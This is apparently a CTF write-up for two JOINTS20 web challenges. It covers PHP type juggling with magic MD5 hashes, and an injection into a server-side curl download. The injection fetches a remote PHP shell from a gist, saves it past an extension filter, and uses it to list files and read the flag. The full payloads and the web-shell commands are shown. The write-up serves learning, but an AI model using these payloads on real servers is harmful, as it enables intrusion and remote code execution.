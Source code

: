 ```yaml
---
layout: blog
title: "CTF Writeup: JOINTS20 Web"
date: 2020-05-08T18:31:53.905Z
tags:
  - ctf_writeup
---
```


JOINTS20 Writeup (WEB)

<!--more-->

This is my writeup on JOINTS20, I could not play it on time so I play the game after it's over

## ezStringMatching

from the start, there is nothing suspicious in the web, so I tried to check the network tab on my browser and see this in the header or you can just simply use curl --head CTF.joints.id:40002 to see the header of the request:

```text
HTTP/1.1 200 OK
Host: ctf.joints.id:40002
Date: Mon, 04 May 2020 05:25:04 GMT
Connection: close
X-Powered-By: PHP/7.2.30
Debug: ?debug=v
Content-type: text/html; charset=UTF-8
```

there is debug option on the request, so let's try to identify ctf.joints.id:40002/?debug

```php
<?
if (!empty($_POST["string1"]) || !empty($_POST["string2"])) {
  $xxx = $_POST["string1"];
  $yyy = $_POST["string2"];
  if ($xxx === $yyy) {
    echo "<center> <p>Match bosqquee!!</p> </center>";
  } else {
    if (md5($xxx) == md5($yyy)) {
      echo "<center> $flag </center>";
    } else {
      echo "<center> <p>Not Match bosqquee!!</p> </center>";
    }
  }
}
```

We can see on the source code, we have to match `md5($xxx) == md5($yyy)` how we can do that?

Remember that PHP has type juggling because of the loose comparison (using `==` instead of `===`), you can see here for the cheat sheet.

When using `==` or loosely comparison, the comparison between the operand just see if the value has the same value on the other hand if we use the strict comparison (using `===`) it not only compares the value but also the type.

TL;DR: we can abuse the == operation, how?

The md5() operation calculates the hash of the value, if the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float. \
\
The hash value of 240610708 is 0e462097431906509019562988736854 and the hash value of QNKCDZO is 0e830400451993494058024219903391 AND THE PHP WILL TREAT THE COMPUTED HASH THAT STARTS WITH 0e AS A FLOAT, DAMN.

![](/images/uploads/fdbc4aec-6cba-4c5d-9701-f39d8caf5fa5.png)

> JOINTS20{b4bytyp3ju99lin9*md5*}

## Twitter Collection

this page provides a URL box that we can feel with a link and scrap the image if it succeeds it will send alert:

![](/images/uploads/21083120-c5f2-4a18-a926-91f239a95acc.png)

and it pops up at the bottom of the page, and it stored on the cookie I think? when I flush the cookie, the image disappears, poor waifu.

and the important thing that is the image is downloaded locally to the server, mine is here `http://ctf.joints.id:10001/downloads/9eed2d697fb5a3fa35e8d1832471a6a8464d49fe/099a95c45237eaa2243500bf145da79534ec8460.jpg` so can we just upload any file?

I try to use some kind of special character in the URL i tried there is two response one is and one is (using `"` and `-`) and bingo, there is 500 internal error:

![](/images/uploads/6b17cc87-f0cb-44e6-be17-ddcd2b5fc77f.png)

and the preview of the error said that

`curl:(22)TherequestedURLreturnederror:404`

we can assume the download process is using curl for you who don't know that is curl you can always check it with man curl or curl --help. The command will be something like this curl <link>.

this is what I'm trying:

- normal query: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg` → success uploaded
- using another link (contains my RCE script) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce.php` → error, PHP file detected
- using another link (contains my RCE script, but change the extension) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce` → error, the URL must be from pixiv?

when I'm trying curl, we can use curl to download multiple files, for example:

```
curl "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_a.jpg "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_b.jpg
```

- trying to upload multiple files the one being from pixiv `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg -o a https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce -o b` → error, https error?
- until this time I'm trying with different payload and I unexpectedly found the correct payload, this is the payload I used: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" "https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce" -o "rce.ph""p` → success, uploaded RCE

Note:

- Bypassing the PHP filter using concatenate feature in bash

```shell
~
❯ echo "rce.php"
rce.php

~
❯ echo "rce.ph""p"
rce.php
```

- `-o` means output to a file and the argument after that is the file name with the extension

and viola:

![](/images/uploads/9ed0f832-c9b0-4206-84fd-b5b2e436415a.png)

```shell
❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php"
<br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php</b> on line <b>2</b><br />


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls"
cfe8e2872fe2d82029e367879c9f782bee55da0d.jpg
d0b581aff1128cbcb5fb53a9025c7d3f09315abf.jpg
d9d65b15c6f896fb5211124cea5e923f06bd1caa.jpg
dfc6c84d54c615dc3a547503e3fd616c82c2adb8.jpg
ec.xx
rce.php


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls ../.."
apakah_ini_benderanya
collect.php
downloads
favicon.ico
get.php
index.php
license-free.txt
scripts
session.php
styles
styles


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=cat ../../apakah_ini_benderanya"

JOINTS20{ya_benar_ini_benderanya_uwu}JOINTS20{ya_benar_ini_benderanya_uwu}
```

![](/images/uploads/14903bb1-cbee-426f-a8d5-74d76db0ca0f.png)
